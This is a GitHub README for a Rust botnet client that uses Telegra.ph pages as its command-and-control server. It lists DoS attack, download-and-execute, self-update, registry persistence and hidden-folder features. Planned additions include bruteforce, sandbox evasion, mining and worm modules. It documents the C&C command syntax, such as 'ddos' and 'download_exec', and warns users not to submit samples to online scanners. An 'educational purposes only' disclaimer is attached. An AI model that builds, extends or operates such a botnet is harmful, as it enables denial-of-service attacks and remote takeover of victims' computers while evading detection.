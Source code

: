 # Rust Botnet
Example botnet client which uses Telegra.ph as C&C server.

__Warning:__ DO NOT upload any samples generated by this program to online scanners. 

## Features
* DoS attack feature.
* Loader & Executer of any files.
* Update feature.
* Program adds itself to autoload register and moves to hidden folder in C:/ drive root.
* Botnet deletion by command.

### In development
* Bruteforce module.
* Sandbox & Virtual machine detector.
* Admin notification about new client.
* Miner module.
* Worm module.
* C&C server link / commands encryption.
* New module-based core architecture.
* Show message box to client.
* Create builder for botnet
* User-friendly control panel (based on Electron.js)

Notice, that this is not production ready version. 
There are many bugs which are waiting to fix.

## Example & List of commands
Example of C&C server [here](https://telegra.ph/Cls93sog103ekfSfKTEsto294kfaozwkd394-rktkcsd-krfasseegpe11-03-20).
Botnet uses next syntax - `command{split}value` or `command{split}value{sep}value's_value`
### Available commands
* `download_exec{split}LINK_TO_FILE` - download and run file which is located at LINK_TO_FILE
* `ddos{split}TARGET{sep}TIME` - ddos TARGET for TIME seconds
* `upgrade{split}LINK_TO_FILE{sep}VERSION` - download and install botnet update which located at LINK_TO_FILE. Update will be installed only if botnet's file version is lower than VERSION
* `stop{split}` - you should use that command every time after executing other's ones
* `delete_botnet{split}` - delete botnet exe and it's registry notes from client's PC
* `exit{split}` - close botnet's executive file

## Help
If you need any help at all, feel free to post a issue.
 
## Contributing
Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer
This program must be used for educational purposes only!
I am not responsible for anything you do with it.

## License
This project is licensed under the MIT License - see the [LICENSE.md](https://github.com/Ookldev/rust_botnet/blob/master/LICENSE) file for details

P.S. Better use i686-pc-windows-msvc to compile it.
